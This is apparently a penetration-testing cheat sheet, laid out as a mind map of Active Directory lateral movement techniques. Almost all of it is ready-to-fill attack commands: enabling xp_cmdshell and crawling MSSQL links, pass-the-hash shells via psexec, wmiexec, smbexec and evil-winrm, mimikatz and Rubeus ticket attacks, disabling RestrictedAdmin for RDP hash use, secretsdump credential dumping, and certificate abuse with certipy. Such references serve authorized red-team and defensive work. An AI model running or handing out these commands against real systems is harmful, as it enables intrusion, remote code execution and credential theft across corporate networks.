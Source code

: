 # Lateral Move  
  
## WSUSpect  
	WSUSpendu.ps1 # need compromised WSUS server  
  
## sccm admin  
	abuse sccm  
		CMPivot  
		PowerSCCM  
		SharpSCCM  
		Administrator access  
  
## MSSQL  
	find mssql access  
		cme mssql <ip> -u <user> -p <password> -d <domain>  
	Users with SQLadmin  
		MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p  
	EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE;  
		EXECUTE sp_configure 'xp_cmdshell', 1;  RECONFIGURE;  
			EXEC xp_cmdshell '<cmd>'  
			Low Access  
	trust link  
		Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance> -Query "<query>"  
		use exploit/windows/mssql/mssql_linkcrawler  
		MSSQL  
	mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip> (pr #1397)  
		enum_db  
		enable_xp_cmdshell  
			xp_cmdshell <cmd>  
			Low Access  
		enum_impersonate  
			exec_as_user <user>  
			exec_as_login <login>  
			MSSQL  
		xp_dir_tree <ip>  
		trustlink  
			sp_linkedservers  
				use_link  
				MSSQL  
		coerce  SMB ->  
  
## Local User  
	cme smb -u <user> -p <pass>' <ip> --local-auth  
	impacket like cleartext pasword without domain/  
	Administrator access  
  
## Password  
	Cleartext password  
		interactive-shell  
			psexec.py <domain>/<user>:<password>@<ip>  
			psexec.exe -AcceptEULA \\<ip>  
			mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"  
		pseudo-shell (file write and read)  
			atexec.py  <domain>/<user>:<password>@<ip> "command"  
			smbexec.py  <domain>/<user>:<password>@<ip>  
			wmiexec.py  <domain>/<user>:<password>@<ip>  
			dcomexec.py  <domain>/<user>:<password>@<ip>  
			crackmapexec smb <ip_range> -u <user> -p <password> -d <domain>  
			crackmapexec smb <ip_range> -u <user> -p <password> -local-auth  
			Authority/sytem  
		WinRM  
			evil-winrm -i <ip> -u <user> -p <password>  
		RDP  
			xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>  
		SMB  
			smbclient.py <domain>/<user>:<password>@<ip>  
				search files  
		MSSQL  
			crackmapexec mssql <ip_range> -u <user> -p <password>  
			mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>  
			MSSQL  
## NTLM Hash  
	🔥 Pass the hash (PTH)  
		interactive-shell  
			psexec.py -hashes ":<hash>" <user>@<ip>  
			psexec.exe -AcceptEULA \\<ip>  
			mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"  
			Authority/sytem  
		pseudo-shell (file write and read)  
			atexec.py -hashes ":<hash>" <user>@<ip> "command"  
			smbexec.py -hashes ":<hash>" <user>@<ip>  
			wmiexec.py -hashes ":<hash>" <user>@<ip>  
			dcomexec.py -hashes ":<hash>" <user>@<ip>  
			crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>'  
			crackmapexec smb <ip_range>  -u <user> -H ':<hash>' --local-auth  
			Authority/sytem  
		WinRM  
			evil-winrm -i <ip> -u <user> -H <hash>  
		RDP  
			reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'  
				xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>  
		SMB  
			smbclient.py  -hashes ":<hash>" <user>@<ip>  
				search files  
		MSSQL  
			crackmapexec mssql <ip_range> -H ':<hash>'  
			mssqlclient.py -windows-auth -hashes ":<hash>" <domain>/<user>@<ip>   
			MSSQL  
	overpass the hash / pass the key (PTK)  
		Rubeus asktgt /user:victim /rc4:<rc4value>  
			Rubeus ptt /ticket:<ticket>  
			Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]  
				Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>  
		getTGT.py <domain>/<user> -hashes :<hashes>  
		getTGT.py -aesKey '<key>' <domain>/<user>@<ip>  
  
## Kerberos  
	Pass the ticket (ccache / kirbi)  
		Convert format  
			ticketConverter.py <kirbi||ccache> <ccache||kirbi>  
		export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache  
			impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket  
		mimikatz kerberos::ptc "<ticket>"  
		Rubeus.exe ptt /ticket:<ticket>  
		proxychains secretsdump -k'<domain>'/'<user>'@'<ip>'  
		modify SPN  
			tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>"  #pr 1256  
			Pass the Ticket  
		Administrator access  
		see dcsync  
  
	aesKey  
		impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)  
		proxychains secretsdump -aesKey <key> '<domain>'/'<user>'@'<ip>'  
		see dcsync  
		Administrator access  
  
## Socks (with NTLM relay)  
	proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids  
	proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass  
	proxychains secretsdump -no-pass '<domain>'/'<user>'@'<ip>'  
	pseudo-shell (file write and read)  
		proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"  
		proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>  
		Authority/sytem  
	proxychains smbclient.py -no-pass <user>@<ip>  
		search files  
  
## Certificate (pfx)  
	get hash NTLM from certificate  
		certipy auth -pfx <crt_file> -dc-ip <dc_ip> ⇒ NTLM hash  
	Pass the Certificate  
		pkinit  
			 gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"  
			Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show  
			certipy auth -pfx <crt_file> -dc-ip <dc_ip>  
		Schannel  
			certipy auth -pfx <crt_file> -ldap-shell  
				add_computer  
					set_rbcd  
					RBCD  
  
